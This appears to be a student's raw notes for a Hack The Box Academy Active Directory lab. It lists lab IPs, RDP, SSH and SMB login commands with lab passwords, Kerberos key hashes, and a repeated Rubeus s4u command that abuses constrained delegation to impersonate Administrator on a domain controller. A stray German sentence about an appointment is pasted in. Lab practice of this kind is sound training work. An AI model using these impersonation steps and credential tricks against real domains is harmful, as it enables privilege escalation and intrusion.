 - IPs
  - DC1: 172.16.18.3
  - DC2: 172.16.18.4
  - Server01: 172.16.18.10
  - PKI: 172.16.18.15
  - WS001: DHCP or 172.16.18.25 (depending on the section)
  - Kali Linux: DHCP or 172.16.18.20 (depending on the section)


- WS001
xfreerdp /v:$TARGET /u:eagle\\bob /p:Slavi123 +clipboard /dynamic-resolution /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows 

xfreerdp /v:172.16.18.3 /u:htb-student /p:'HTB_@cademy_stdnt!'+clipboard /dynamic-resolution /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows 

htb-student:HTB_@cademy_stdnt!

- Kali
ssh kali@$TARGET
xfreerdp /v:$TARGET /u:kali /p:kali +clipboard /dynamic-resolution /drive:linux,/home/kalilearn/workspace/hacklab/academy/Attackwindows 

- Moving files alternative
smbclient \\\\$TARGET \\Share -U eagle/administrator%Slavi123
put
get

webservice
http/DC1
FCDC65703DD2B0BD789977F1F3EEAECF

[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF
[*]       aes128_cts_hmac_sha1 : 89E50DBF46388A7DBDB3EAAE80C6030F
[*]       aes256_cts_hmac_sha1 : D7480FABB291BDAC59D66B97812C3382A02AB9895D1C1B95A1AF520BAE08488B
[*]       des_cbc_md5          : 3D62D0CBEFB6D39B

.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /mdsspn:"http/dc1" /dc:dc1.eagle.local

```
Ich habe einen Termin für den 4.12.2024, aber da ich schon alle Unterlagen habe, versuche ich einen früheren zu bekommen. Falls ich einen früheren Termin bekommen, werde ich den für Dezember stornieren.
```


   

.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /mdsspn:"http/dc1" /dc:dc1.eagle.local
